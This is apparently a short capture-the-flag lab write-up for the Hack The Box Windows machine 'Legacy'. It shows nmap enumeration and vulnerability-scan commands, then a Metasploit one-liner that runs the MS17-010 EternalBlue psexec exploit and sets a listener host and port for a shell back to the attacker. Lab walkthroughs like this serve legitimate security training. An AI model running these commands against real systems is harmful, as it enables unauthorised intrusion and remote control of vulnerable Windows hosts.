 ```yaml
---
title: "Legacy - HTB"
categories: [Easy,Windows]
tags: [Easy,Windows,EternalBlue,SMB,Metasploit]
mermaid: true
image: https://0xetern4lw0lf.github.io/assets/img/HTB/HTB-Legacy/Legacy.png
---
```


# Introdution

[https://app.hackthebox.com/machines/Legacy](https://app.hackthebox.com/machines/Legacy)

This is a box Windows easy, where is possible to explore the vuln EternalBlue.

**Have a good time!**

## Diagram

```mermaid
graph TD
	Enumeration --> SMB --> Exploration --> |EternalBlue| A((ROOT))
```

# Enumeration

First step is to enumerate the box. For this we’ll use `nmap`.

```bash
ports=$(sudo nmap -p- -Pn --min-rate=1000 -T4 10.10.10.4 | grep ^[0-9] | cut -d '/' -f 1 | tr '\n' ',' | sed s/,$//) && sudo nmap -sC -sV -Pn -p $ports 10.10.10.4
```

![Untitled](https://0xetern4lw0lf.github.io/assets/img/HTB/HTB-Legacy/Untitled.png)

Two vulnerability was found related to **EternalBlue**.

```bash
sudo nmap -sS --script=vuln -p 135,139,445 10.10.10.4
```

![Untitled](https://0xetern4lw0lf.github.io/assets/img/HTB/HTB-Legacy/Untitled%201.png)

# Exploration

## Exploring EternalBlue

We’ll use one of metasploit exploits.

```bash
msfconsole -q -x "use exploit/windows/smb/ms17_010_psexec; set rhosts 10.10.10.4; set lhost tun0; set lport 443; run"
```
